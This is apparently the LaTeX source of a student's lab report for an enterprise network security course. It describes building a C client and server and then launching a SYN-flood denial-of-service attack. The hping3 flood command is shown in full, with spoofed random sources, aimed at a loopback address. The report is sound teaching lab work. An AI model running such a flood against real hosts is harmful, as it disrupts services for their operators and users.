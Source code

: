 \documentclass[11pt]{article}
\author{Student: Sean Wang, szw87 \\ Professor: Mohit Tiwari, Antonio Espinoza \\ Department of Electrical \& Computer Engineering \\ The University of Texas at Austin}
\date{\today}
\title{EE379K Enterprise Network Security Lab 1 Report}
\begin{document}
\maketitle
\section*{Part 1 - Networking and Denial of Service}
\subsection*{Step 1 - Client and Server in C}
For step 1, the client and server in C were implemented to closely match the Python versions.
For simplicity, the client sends the same hard coded message each time, similar to the Python
client. The C client and server were tested with the Python client and server to ensure
cross-functionality and that the client implementation in both languages worked almost
identically. The only difference between the C client and Python client was the output of the
Python client showing
\begin{verbatim}
  From Server: b'INPUT LOWERCASE SENTENCE:'
\end{verbatim}
and the C client showing
\begin{verbatim}
  From Server: INPUT LOWERCASE SENTENCE:
\end{verbatim}
To build the server, compile it with:
\begin{verbatim}
  $ gcc -o server server.c
\end{verbatim}
Similarly for the client, compile it with:
\begin{verbatim}
  $ gcc -o client client.c
\end{verbatim}
To run them, simply execute either:
\begin{verbatim}
  $ ./server
  $ ./client
\end{verbatim}
\subsection*{Step 2 - DOS Attack}
For step 2, the DOS attack was implemented using a command line tool called \verb|hping3| using
the options
\begin{verbatim}
  $ sudo hping3
      --count 15000 \           # number of packets
      --destport 12000 \        # destination port
      --rand-source \           # randomize source IP
      --flood \                 # send as fast as possible
      --syn \                   # send SYN packets
      127.0.0.2                 # destination IP
\end{verbatim}
\end{document}
